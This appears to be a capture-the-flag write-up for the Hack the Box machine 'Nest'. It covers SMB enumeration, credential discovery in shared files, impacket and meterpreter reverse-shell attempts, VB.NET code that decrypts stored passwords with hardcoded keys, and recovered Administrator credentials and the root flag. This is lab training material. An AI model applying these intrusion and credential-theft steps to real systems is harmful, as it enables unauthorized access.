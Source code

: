 +++
title = "Hack the Box: Nest"
date = 2023-01-08
description = "Hack the Box: Nest"
tags = [
    "Hack the Box",
    "Write-up"
]
categories = [
    "Hack the Box",
    "Write-up"
]
series = ["Hack the Box"]
+++

Hack the Box: Nest

<!--more-->

# Nest

## Enumeration

### Nmap

```
# sudo nmap -A -p 445,4386 -T4 -Pn -nvv nest.htb -e tun0 

PORT     STATE SERVICE       REASON          VERSION
445/tcp  open  microsoft-ds? syn-ack ttl 127
4386/tcp open  unknown       syn-ack ttl 127
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     Reporting Service V1.2
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     Reporting Service V1.2
|     Unrecognised command
|   Help: 
|     Reporting Service V1.2
|     This service allows users to run queries against databases using the legacy HQK format
|     AVAILABLE COMMANDS ---
|     LIST
|     SETDIR <Directory_Name>
|     RUNQUERY <Query_ID>
|     DEBUG <Password>
|_    HELP <Command>
```

enum4linux gives nothing

```
# enum4linux 10.10.10.178
```

```
# smbclient -L \\\\10.10.10.178\\
Enter WORKGROUP\robin's password: 

    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    Data            Disk      
    IPC$            IPC       Remote IPC
    Secure$         Disk      
    Users           Disk      
SMB1 disabled -- no workgroup available
```

We can find files in:

```
# smbclient \\\\nest.htb\\DATA
# smb: \Shared\Maintenance\> mget "Maintenance Alerts.txt"
# smb: \Shared\Templates\HR\> mget "Welcome Email.txt"
```

Inside Welcome\ Email.txt we have: `Username: TempUser Password: welcome2019`

## Foothold

```
# enum4linux -u TempUser -p welcome2019 10.10.10.178
# Domain Name: WORKGROUP
```

Nothing found from:

```
# sudo psexec.py WORKGROUP/TempUser:welcome2019@10.10.10.178
# sudo smbexec.py WORKGROUP/TempUser:welcome2019@10.10.10.178
# sudo wmiexec.py WORKGROUP/TempUser:welcome2019@10.10.10.178
# sudo secretsdump.py WORKGROUP/TempUser:welcome2019@10.10.10.178
# msf5 exploit(windows/smb/psexec
    # payload windows/x64/meterpreter/reverse_tcp
```

Let’s get back to smbclient then. `smbclient \\\\nest.htb\\DATA -U TempUser` then `recurse on` and we find in `config.xml` and `RU_config.xml`:

```
<Username>c.smith</Username>
<Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>

<File filename="C:\windows\System32\drivers\etc\hosts" />
<File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
<File filename="C:\Users\C.Smith\Desktop\todo.txt" />
```

smbclient \\10.10.10.178\Secure$ -U TempUser smb: > cd IT/Carl

smbget -rR smb://10.10.10.178/Secure$/IT/Carl -U TempUser On [https://dotnetfiddle.net/](https://dotnetfiddle.net/ "https://dotnetfiddle.net/") to get the decrypted password `C.Smith:xRxRxPANCAK3SxRxRx`

```
Imports System.Text
Imports System.Security.Cryptography
Public Class Utils
    Public Class ConfigFile
    Public Property Port As Integer
    Public Property Username As String
    Public Property Password As String

    Public Sub SaveToFile(Path As String)
                        Using File As New System.IO.FileStream(Path, System.IO.FileMode.Create)
            Dim Writer As New System.Xml.Serialization.XmlSerializer(GetType(ConfigFile))
            Writer.Serialize(File, Me)
        End Using
    End Sub

    Public Shared Function LoadFromFile(ByVal FilePath As String) As ConfigFile
        Using File As New System.IO.FileStream(FilePath, System.IO.FileMode.Open)
            Dim Reader As New System.Xml.Serialization.XmlSerializer(GetType(ConfigFile))
            Return DirectCast(Reader.Deserialize(File), ConfigFile)
        End Using
    End Function
  
End Class
    Public Shared Function DecryptString(EncryptedString As String) As String
        If String.IsNullOrEmpty(EncryptedString) Then
            Return String.Empty
        Else
            Return Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)
        End If
    End Function

    Public Shared Function Decrypt(ByVal cipherText As String, _
                                   ByVal passPhrase As String, _
                                   ByVal saltValue As String, _
                                    ByVal passwordIterations As Integer, _
                                   ByVal initVector As String, _
                                   ByVal keySize As Integer) _
                           As String
        Dim initVectorBytes As Byte()
        initVectorBytes = Encoding.ASCII.GetBytes(initVector)
        Dim saltValueBytes As Byte()
        saltValueBytes = Encoding.ASCII.GetBytes(saltValue)
        Dim cipherTextBytes As Byte()
        cipherTextBytes = System.Convert.FromBase64String(cipherText)
        Dim password As New Rfc2898DeriveBytes(passPhrase, _
                                           saltValueBytes, _
                                           passwordIterations)
        Dim keyBytes As Byte()
        keyBytes = password.GetBytes(CInt(keySize / 8))
        Dim symmetricKey As New AesCryptoServiceProvider
        symmetricKey.Mode = CipherMode.CBC
        Dim decryptor As ICryptoTransform
        decryptor = symmetricKey.CreateDecryptor(keyBytes, initVectorBytes)
                Dim memoryStream As System.IO.MemoryStream
                memoryStream = New System.IO.MemoryStream(cipherTextBytes)
        Dim cryptoStream As CryptoStream
        cryptoStream = New CryptoStream(memoryStream, _
                                        decryptor, _
                                        CryptoStreamMode.Read)
        Dim plainTextBytes As Byte()
        ReDim plainTextBytes(cipherTextBytes.Length)
        Dim decryptedByteCount As Integer
        decryptedByteCount = cryptoStream.Read(plainTextBytes, _
                                               0, _
                                               plainTextBytes.Length)
        memoryStream.Close()
        cryptoStream.Close()
        Dim plainText As String
        plainText = Encoding.ASCII.GetString(plainTextBytes, _
                                            0, _
                                            decryptedByteCount)
    System.Console.WriteLine(plainText)
    Return plainText
    End Function

Public Class SsoIntegration
    Public Property Username As String
    Public Property Password As String
End Class
    
    Sub Main()
        Dim test As New SsoIntegration With {.Username = "c.smith", .Password = Utils.DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")}
    End Sub
End Class
```

## Privilege Escalation

`smbclient \\10.10.10.178\Users -U C.Smith smb: \C.Smith> mget user.txt`

`/home/robin/HQK_Config_Backup.xml telnet 10.10.10.178 4386`

`> DEBUG WBQ201953D8w setdir … setdir LDAP showquery 2`

`Domain=nest.local Port=389 BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local User=Administrator Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4`

Use AvaloniaILSpy and DnSpy

![](/img/nest1.png)

`XtH4nkS4Pl4y1nGX`

`sudo smbclient -E -U Administrator \\nest.htb\c$ XtH4nkS4Pl4y1nGX -c [sudo] password for robin: Try “help” to get a list of possible commands. smb: > get \Users\Administrator\Desktop\root.txt`

`cat \\Users\Administrator\Desktop\root.txt 6594c2eb084bc0f08a42f0b94b878c41`